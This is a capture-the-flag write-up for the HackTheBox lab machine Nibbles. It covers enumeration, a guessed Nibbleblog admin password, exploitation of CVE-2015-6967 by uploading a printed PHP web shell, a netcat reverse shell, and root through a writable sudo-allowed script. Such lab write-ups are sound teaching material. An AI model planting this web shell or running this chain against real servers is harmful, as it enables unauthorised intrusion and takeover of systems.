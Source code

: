 # HackTheBox: [Nibbles](https://app.hackthebox.com/machines/Nibbles)

## Enumerate

```console
$ nmap -nv -sCV -T4 $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-20 11:54 CST
[...]
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.79 seconds

```

The web page mentions something called "nibbleblog" in the HTML comments:

![](_/htb-nibbles-20231811-1.png)

The `/nibbleblog/` URL:

![](_/htb-nibbles-20231811-2.png)

The login page is available at `http://10.10.10.75/nibbleblog/admin.php`. I tried brute-forcing the password for the `admin` user but this happens after a few attempts:

![](_/htb-nibbles-20231811-3.png)

My IP even shows up here:

![](_/htb-nibbles-20231811-4.png)

And then I guessed the password, which was… `nibbles`:

![](_/htb-nibbles-20231811-5.png)

## Exploit

The version of Nibbleblog is v4.0.3, as verified by this README file:

![](_/htb-nibbles-20231811-6.png)

That means the software is vulnerable to an arbitrary file upload per CVE-2015-6967. There's [a PoC available](https://github.com/dix0nym/CVE-2015-6967).

I prepare the following payload:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

And trigger the exploit:

```console
$ python3 ./exploit.py --url http://${t}/nibbleblog/ --username admin --password nibbles --payload ~/shell.php
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.
```

It works:

![](_/htb-nibbles-20231811-7.png)

Reverse shell:

![](_/htb-nibbles-20231811-8.png)

```console

$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.75] 33576
$ cd /home/nibbler
cd /home/nibbler
$ cat user.txt
cat user.txt
b8b4a7[...]
```

## Escalate

User `nibbler` has `sudo` for a script called `monitor.sh`:

```console
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ mkdir -p personal/stuff
mkdir -p personal/stuff
nibbler@Nibbles:/home/nibbler$ echo sh > personal/stuff/monitor.sh
echo sh > personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ chmod +x personal/stuff/monitor.sh
chmod +x personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
078111[...]
```

## Summary

The target is running an unpatched version of its blogging software that includes an authenticated arbitrary file upload vulnerability. The exploit requires valid credentials, but the password was easy to guess. Privilege escalation was simple do to a `sudoers` entry pointing to a file that was writeable by the user, allowing execution of `sh` as the root user.
